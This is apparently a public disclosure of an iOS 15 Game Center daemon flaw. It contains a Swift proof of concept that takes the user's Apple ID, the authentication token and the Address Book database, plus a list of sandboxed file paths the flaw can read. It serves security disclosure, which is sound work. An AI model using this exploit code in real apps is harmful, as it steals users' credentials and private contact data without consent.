# Gamed 1-day (iOS 15.0)

Any app installed from the App Store may access the following data without any prompt from the user:
- Apple ID email and full name associated with it
- Apple ID authentication token which allows to access at least one of the endpoints on *.apple.com on behalf of the user
- Complete file system read access to the Core Duet database (contains a list of contacts from Mail, SMS, iMessage, 3rd-party messaging apps and metadata about all user's interaction with these contacts (including timestamps and statistics), also some attachments (like URLs and texts))
- Complete file system read access to the Speed Dial database and the Address Book database including contact pictures and other metadata like creaton and modification dates (I've just checked on iOS 15 and this one inaccessible, so that must have been quietly fixed)



Here is a short proof of concept.

```swift
let connection = NSXPCConnection(machServiceName: "com.apple.gamed", options: NSXPCConnection.Options.privileged)!
let proxy = connection.remoteObjectProxyWithErrorHandler({ _ in }) as! GKDaemonProtocol
let pid = ProcessInfo.processInfo.processIdentifier
proxy.getServicesForPID(pid, localPlayer: nil, reply: { (accountService, _, _, _, _, _, _, _, utilityService, _, _, _, _) in
	accountService.authenticatePlayerWithExistingCredentials(handler: { response, error in
		let appleID = response.credential.accountName
		let token = response.credential.authenticationToken
	}

	utilityService.requestImageData(for: URL(fileURLWithPath: "/var/mobile/Library/AddressBook/AddressBook.sqlitedb"), subdirectory: nil, fileName: nil, handler: { data in
		let addressBookData = data
	}
}
```

How it happens:
- XPC service `com.apple.gamed` doesn't properly check for `com.apple.developer.game-center` entitlement
- Even if Game Center is disabled on the device, invoking `getServicesForPID:localPlayer:reply:` returns several XPC proxy objects (`GKAccountService`, `GKFriendService`, `GKUtilityService`, etc.).
- If game center is enabled on the device (even if it's not enabled for the app in App Store Connect and app doesn't contain `com.apple.developer.game-center` entitlement), invoking `authenticatePlayerWithExistingCredentialsWithHandler:` on `GKAccountService` returns an object containing Apple ID of the user, DSID and Game Center authentication token (which allows to send requests to `https://gc.apple.com` on behalf of the user). Invoking `getProfilesForPlayerIDs:handler:` on GKProfileService returns an object containing first and last name of the user's Apple ID. Invoking `getFriendsForPlayer:handler:` on `GKFriendService` return an object with information about user's friend in Game Center.
- Even if game center is disabled, it's not enabled for the app in App Store Connect and app doesn't contain `com.apple.developer.game-center` entitlement, invoking `requestImageDataForURL:subdirectory:fileName:handler:` on `GKUtilityService` allows to read arbitrary files outside of the app sandbox by passing file URLs to that method. Among the files (but not limited to) that can be accessed that way are the following:
`/var/containers/Shared/SystemGroup/systemgroup.com.apple.mobilegestaltcache/Library/Caches/com.apple.MobileGestalt.plist` - contains mobile gestalt cache
`/var/mobile/Library/CoreDuet/People/interactionC.db` - contains a list of contacts from Mail, SMS, iMessage, 3rd-party messaging apps and metadata about user's interaction with these contacts (including timestamps and statistics)
`/var/mobile/Library/Preferences/com.apple.mobilephone.speeddial.plist` - contains favorite contacts and their phone numbers
`/var/mobile/Library/AddressBook/AddressBook.sqlitedb` - contains complete Address Book database
`/var/mobile/Library/AddressBook/AddressBookImages.sqlitedb` - contains photos of Address book contacts
- Invoking `cacheImageData:inSubdirectory:withFileName:handler:` on GKUtilityService might allow to write arbitrary data to a location outside of the app sandbox.

On the [Apple Security Bounty Program page](https://developer.apple.com/security-bounty/payouts/) this vulnerabilty is evaluated at $100,000 (Broad app access to sensitive data normally protected by a TCC prompt or the platform sandbox. “Sensitive data” access includes gaining a broad access (i.e., the full database) from Contacts).
